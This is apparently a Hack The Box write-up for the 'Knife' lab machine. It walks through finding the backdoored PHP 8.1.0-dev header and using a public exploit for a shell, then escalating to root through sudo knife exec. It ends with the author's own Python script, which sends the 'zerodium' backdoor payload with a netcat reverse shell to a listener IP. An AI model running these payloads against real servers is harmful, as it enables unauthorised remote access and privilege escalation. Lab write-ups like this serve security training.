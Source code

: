 # Knife: 10.10.10.242

## Hints

- This machine is easy, even for an easy box - but it is fun!
- HTTP headers have the information you need to get a foothold
- Privesc to root is all about the machine name!

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Looking at the SSH version of `4ubuntu0.2` - seems like we have an Ubuntu Linux Focal operating system, which is version 20.04. So probably not much to poke at on port 22 for SSH. So, instead, I started by looking at port 80.

## 80: Recon

Browsing to the home page of port 80, there is very little.

![80 Home](screenshots/80_home.png)

I started to run a `gobuster` against the website with the usual options, then poked around the website manually. There are no links on the page, and the HTML source is bare bones. Nothing to see or find. No user input either. I found this quite strange and was at a bit of a loss about how to proceed. So I kept enumerating port 80 looking for hints - as it seemed like the only option. After I while I executed a `curl` against the site to see the headers. I have started using browser dev tools and `curl` instead of spinning up Burp for everything - especially when it might be a quick engagement.

![80 curl](screenshots/80_curl.png)

This is interesting! In the `X-Powered-By` header the value is set to: `PHP/8.1.0-dev`. I immediately stopped my current `gobuster` and started a new one specifying the PHP extension. What jumps out here is that the PHP version is the development version of PHP.

## Foothold via PHP RCE

After finding no interesting PHP files with my revised `gobuster` with PHP extension, it seemed like the only thing left was this PHP version. Having a quick `seachsploit` gave us the result we were looking for.

```none
└─$ searchsploit 8.1.0-dev 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                               | php/webapps/49933.py
---------------------------------------------------------------------------------- ---------------------------------
```

An RCE against the exact PHP version we have - with a nice Python3 exploit. This script is easy, enter the host and get access as the `james` user, and the ability to get the user flag.

```none
└─$ python3 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ wc -c /home/james/user.txt
33 /home/james/user.txt
```

If you are interested, have a read of this blog on [PHP 8.1.0-dev Backdoor Remote Code Execution](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/). Which summarises the backdoor that was put into PHP code, as well as the [GitHub commit of interest](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a).


I messed around with the script a little to have some fun. Added in the ability to fetch the host as a command-line argument. Then tried some payloads to get a reverse shell - which was completely un-needed, but entertaining!

The shell the exploit gives is really hard to work in. So, used the old Python trick to get a proper shell. It had been a couple of weeks since I did this last, so documenting it to write it out again (so I hopefully remember!).

```none
python3 -c 'import pty;pty.spawn("/bin/bash");'
Ctrl + Z
stty raw -echo; fg
Enter
Enter
```

## Privesc: `james` to `root`

Since this is an easy Linux machine I decided to try manually enumerate it, so left linpeas off the list for today. I have done lots of easy Linux machines lately and decided to try and challenge myself. The first thing I looked at was, of course, `sudo` configuration.

```none
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Looking at this `knife` executable, it links to a file in a different location.

```none
james@knife:/dev/shm$ ls -lisa /usr/bin/knife 
26173 0 lrwxrwxrwx 1 root root 31 May  7 11:03 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

We can execute this file as `sudo` with no password. But I had no idea how to proceed. However, when running the command, we get a nice help menu. Turns out [the `knife` command](https://docs.chef.io/workstation/knife/) is an actual thing, and not made specifically for this machine. It is part of [Chef](https://docs.chef.io/platform_overview/) which I have used in other projects... but didn't know much about it. 

After a little research, and looking at the `knife` help menu, and checking on [GTFOBins for "knife"](https://gtfobins.github.io/gtfobins/knife/) - looks like we can use `knife` to execute code!

```none
james@knife:/dev/shm$ sudo /usr/bin/knife | grep exec
knife exec [SCRIPT] (options)
knife vsphere vm execute VMNAME COMMAND ARGS
```

Copying the GTFOBins example for `sudo`, we can get a root shell.

```none
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

Success!

```none
james@knife:/dev/shm$ sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
root@knife:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/dev/shm# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Extra: One-Click Own

This box was quite easy, so I did a little experimentation after finishing. The main inspiration for this was taken from the [HTB: Knife writeup by 0xdf](https://0xdf.gitlab.io/2021/08/28/htb-knife.html#shell-as-root). 0xdf showed a simple single request to get the user and root flag in Burp. I thought that this was awesome! Here is an example of the additional `User-Agentt` header value they used:

```none
User-Agentt: zerodium system("cat /home/$(whoami)/user.txt; sudo knife exec -E \"exec 'cat /root/root.txt'\"");;
```

The `zerodium` backdoor is loaded with a `cat` on the user flag and then calls the `knife` command as `sudo` on the root flag. The result is getting the webpage as a response with the output of the command before the HTML page continues being displayed:

```none
HTTP/1.1 200 OK
Date: Mon, 30 Aug 2021 06:54:25 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 5881
Connection: close
Content-Type: text/html; charset=UTF-8

1d5c04f6d961e6eab5e87ee1c884a73d
382a7d51044d11aa31771536034f638e
<!DOCTYPE html>
<html lang="en" >

...snip
```

I wanted to make a single pwned script in Python to either dump the flags or get a reverse shell. It also allowed me to practice with some string escaping while using the requests library (didn't realize this when starting). There is a lot of nested quotation marks, so this was essential. Just have a look at some of the payloads in the script - kind of nuts! The script is listed below and is also in the [exploits folder named `own_knife.py`](exploits/own_knife.py). Another cool thing I used while testing this was to proxy the requests through Burp to see what the payload looked like, as Python kept messing with my escaped characters.

FYI - please use this for educational purposes. This was authored for educational purposes... not one-click-HTB-owns for nefarious reasons - if there are any?!

```python
import requests

url = "http://10.10.10.242/"

# Get the user flag
# cmd = "zerodium system(\"cat /home/$(whoami)/user.txt\");"

# Get the root flag
# cmd = "zerodium system(\"sudo knife exec -E \\\"exec \'cat /root/root.txt\'\\\"\");"

# Get both flags
# cmd = "zerodium system(\"cat /home/$(whoami)/user.txt; sudo knife exec -E \\\"exec \'cat /root/root.txt\'\\\"\");;"

# Get a reverse shell
# Change IP and start a netcat listener
lhost = "10.10.14.16"
lport = 9001
cmd = f"zerodium system(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f; exit\");"

headers = {
    "User-Agentt": cmd
}

r = requests.get(url, headers=headers)

result = r.text
result = result.split('<!DOCTYPE html>', 1)
print(result[0])
```

## Lessons Learned

- Remember to do complete enumeration, even when in a hurry and not using the normal tools
- Researching new technologies is a good method to continually upskilling

## Useful Resources

- [HackTheBox - Knife by ippsec](https://www.youtube.com/watch?v=93JnRTF5sQM)
- [HTB: Knife by 0xdf](https://0xdf.gitlab.io/2021/08/28/htb-knife.html)

